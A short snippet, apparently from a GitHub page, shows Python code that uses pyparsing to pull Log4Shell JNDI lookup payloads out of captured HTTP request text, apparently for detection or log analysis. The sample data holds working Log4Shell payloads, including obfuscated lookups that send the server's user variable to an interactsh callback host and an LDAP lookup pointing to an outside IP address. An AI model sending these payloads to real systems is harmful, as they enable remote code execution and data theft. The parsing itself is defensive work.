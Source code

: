 # extract log4shell payload 
Question: How do I extract jndp payload like 
```python
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//test-smsapi-smp.tencent.com.ga.c6t8twb2vtc0000jrfv0gdprpqryyyyyb.interactsh.com:80/${env:user}}
```
regex is cool but complex. let's use pyparsing! (You'll need to install pyparsing `pip install pyparsing` first)

```python
from pyparsing import *

value = """
POST /include?q=$%7Bjndi:ldap://xx:1389/ysgb0t%7D HTTP/1.1
Host: xxx.xxx.xxx:80
Transfer-Encoding: identity
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: ${jndi:ldap://78.31.71.248:1389/ysgb0t}
Cookie: acw_tc=xxx
User-Agent: ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//test-smsapi-smp.tencent.com.ga.c6t8twb2vtc0000jrfv0gdprpqryyyyyb.interactsh.com:80/${env:user}}

args1=${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//test-smsapi-smp.tencent.com.ga.c6t8twb2vtc0000jrfv0gdprpqryyyyyb.interactsh.com:80/${env:user}}&args2=${jndi:ldap://xx:1389/ysgb0t}
"""

expr = Combine(nestedExpr('${', '}'))
single_value = QuotedString(quoteChar="${", endQuoteChar="}")


def extract_payloads(long_text):
    for tokens, start, end in expr.scanString(long_text):
        print(long_text[start:end])


if __name__ == '__main__':
    extract_payloads(value)
```

Hope it save your time.
